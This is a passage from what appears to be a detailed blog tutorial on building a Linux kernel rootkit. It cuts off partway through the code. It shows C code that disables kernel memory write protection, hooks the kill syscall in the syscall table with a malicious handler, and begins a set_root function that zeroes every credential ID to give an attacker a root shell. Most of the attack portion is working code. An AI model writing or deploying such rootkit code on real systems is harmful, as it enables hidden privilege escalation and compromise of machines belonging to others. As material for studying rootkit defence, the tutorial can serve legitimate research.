    Now, we stored the original syscall, rather backuped the original syscall, as this would be used later to revert back to normal syscall workflow while rmmod'ing our LKM aka. rootkit (in this scenario).\
             So lets unprotect the memory and edit the syscall table and then revert back the memory protection as it was.
```c
              orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

              unprotect_memory();

              __sys_call_table[__NR_kill] = (unsigned long) hacked_kill;

              protect_memory();
```
   You might be thinking, what the heck is hacked_kill?\
              It is actually the function (mal. syscall) that we created, which I will introduce you in the next step.\
            5. So, now what ?\
Remember that? **providing rootshell** portion earlier in this blog (if not, please go and [visit](https://github.com/reveng007/reveng_rtkit/blob/main/Detailed_blog_README.md#part6-providing-rootshell-to-the-attacker), it's obvious to forget as this blog is pretty long, don't be harsh on yourself! :hugs:)\
              We will be implementing that _getting rootshell_ mechanism via _kill syscall_.
```c
                  static void set_root(void)
                  {
                    /*
                     * pwd: /lib/modules/5.11.0-49-generic/build/include/linux/cred.h
                     * 
                     * struct cred {
                     *      ...
                     *      kuid_t          uid;            // real UID of the task
                     *      kgid_t          gid;            // real GID of the task 
                     *      kuid_t          suid;           // saved UID of the task
                     *      kgid_t          sgid;           // saved GID of the task
                     *      kuid_t          euid;           // effective UID of the task
                     *      kgid_t          egid;           // effective GID of the task
                     *      kuid_t          fsuid;          // UID for VFS ops
                     *      kgid_t          fsgid;          // GID for VFS ops
                     *      ...
                     * };
                     * 
                     * ...
                     * extern struct cred *prepare_creds(void);     // returns current credentials of the process
                     * ...
                     * extern int commit_creds(struct cred *);      // For setting modified values of ids to cred structure
                     */

                    struct cred *root = prepare_creds();

                    if (root == NULL)
                    {
                         return;
                    }

                    // Updating ids to 0 i.e. root
                    root->uid.val = root->gid.val = 0;
                    root->euid.val = root->egid.val = 0;
                    root->suid.val = root->sgid.val = 0;
                    root->fsuid.val = root->fsgid.val = 0;

                    // Setting the updated value to cred structure
```